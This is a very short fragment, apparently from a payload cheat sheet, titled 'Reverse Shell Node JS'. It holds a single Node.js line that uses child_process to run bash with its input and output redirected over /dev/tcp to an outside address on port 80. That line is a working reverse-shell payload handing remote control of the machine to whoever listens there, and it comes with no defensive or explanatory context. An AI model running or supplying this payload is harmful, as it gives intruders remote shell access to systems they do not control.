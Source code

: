 ### Reverse Shell Node JS
```
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```
